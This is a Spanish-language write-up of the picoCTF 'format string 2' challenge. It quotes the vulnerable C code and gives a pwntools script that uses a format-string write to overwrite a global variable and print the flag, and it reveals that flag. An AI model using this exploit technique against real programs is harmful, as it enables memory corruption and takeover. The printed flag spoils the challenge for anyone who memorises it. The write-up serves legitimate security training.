




# format string 2


## Descripción
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!  
Download the binary [here](https://artifacts.picoctf.net/c_rhea/13/vuln).  
Download the source [here](https://artifacts.picoctf.net/c_rhea/13/vuln.c).  
Additional details will be available after launching your challenge instance.

## Resolución
En este caso, tenemos tres variables en el stack:

```c
int sus = 0x21737573;
char buf[1024];
char flag[64];
```

Siendo la primera una variable global y el resto variables locales. Para que el programa imprima la flag, deberemos hacer que se cumpla la siguiente condición:

```c
if (sus == 0x67616c66)
```

Si nos llevamos el valor a [Cyberchef](https://cyberchef.org/) veremos que el valor es 'flag' en little endian:



Para alterar su valor, tendremos que usar dos vulnerabilidades:
1. Buffer Overflow en 'scanf'
```c
scanf("%1024s", buf)
```

2. Formateo inseguro en 'printf'
```c
printf(buf);
```

Para resolver este CTF, primero tenemos que ver en qué dirección de memoria se encuentra la variable que queremos modificar:

```bash
objdump -D ./vuln | grep sus
```



Con esto, sabemos que la variable a modificar está en la dirección '0x404060'.

Entonces, creamos un script de python con la siguiente estructura:

```python
from pwn import *

context.binary = ELF('vuln')
PORT = 51026
p = remote('rhea.picoctf.net', PORT)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', PORT)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)

print(p.recvall())
```

Este script se basa en la documentación de [pwntools](https://docs.pwntools.com/en/stable/fmtstr.html). Para ejecutarlo tenemos que tenerlo en la misma carpeta que el archivo vuln, esto se hace con 'cd' en el terminal de Visual Studio Code. Él sólo se encargará de buscar la dirección de memoria y sustituirla por el valor que le hemos proporcionado:



Obteniendo así la flag: 'picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}',
